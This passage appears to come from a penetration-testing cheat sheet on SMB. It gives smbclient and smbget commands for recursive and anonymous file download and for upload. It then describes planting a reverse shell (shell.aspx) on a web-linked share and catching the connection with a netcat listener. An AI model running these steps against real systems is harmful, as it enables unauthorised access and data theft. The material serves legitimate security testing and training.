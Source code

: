 ```sh
smb> get sample.txt
# If the filename contains spaces, it need to be enclosed in double-quotes.
smb> get "Example File.txt"
```

To download files recursively, run the following commands.

```sh
smb> mask ""
smb> recurse ON
smb> prompt OFF
smb> mget *
```

Or using smbget from local machine.  
Especially, it’s useful for **downloading a large file** rather than “get” command in smbclient.

```sh
smbget smb://<target-ip>/somedir/example.txt -U username
smbget -R smb://<target-ip>/somedir -U username

# Specify workgroup
smbget -R smb://<target-ip>/somedir -w WORKGROUP -U username

# as anonymous user
smbget smb://<target-ip>/somedir -U anonymous
password: anonymous
```

### Upload Files

```sh
# Upload a file
smb> put example.txt
```

- **Upload Reverse Shell Payload**

If the website is associated with the SMB server, we can upload reverse shell script such as **`aspx`**, **`php`** and get a shell.  
To create a payload, please refer to the [Web Reverse Shell](web-reverse-shell.md) or the [Reverse Shell with Metasploit](reverse-shell-with-metasploit.md).

Then upload it to the SMB server as below.

```bash
smb> put shell.aspx
```

Don’t forget to start a listener for getting outcoming connection.

```bash
nc -lvnp 4444
```

Now access to **`https://example.com/path/to/smb/share/shell.aspx`**.  
We can get a shell.
